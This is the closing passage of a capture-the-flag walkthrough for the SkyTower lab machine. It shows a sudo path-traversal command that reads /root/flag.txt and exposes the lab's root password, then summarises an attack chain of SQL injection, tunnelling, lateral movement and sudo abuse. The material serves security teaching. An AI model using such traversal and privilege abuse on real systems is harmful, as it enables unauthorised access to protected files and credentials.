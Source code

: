 ### Exploiting Sudo Privileges

We can use Sara's sudo privileges to read files outside of the `/accounts/` directory by using path traversal:

```
sara@SkyTower:~$ sudo cat /accounts/../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```

This allows us to read the root flag and obtain the root password.

## Conclusion

In this walkthrough, we successfully compromised the SkyTower machine by:

1. Discovering open ports and services using nmap.
2. Exploiting a SQL injection vulnerability in the web application.
3. Using a proxy tunnel to bypass firewall restrictions.
4. Enumerating the system to find database credentials.
5. Performing lateral movement to access a user with sudo privileges.
6. Exploiting sudo privileges to read sensitive files and obtain root access.

This demonstrates the importance of proper input validation, secure network configuration, and the principle of least privilege in maintaining system security. Remember, these techniques should only be used in authorized, ethical hacking scenarios or on your own systems for educational purposes.
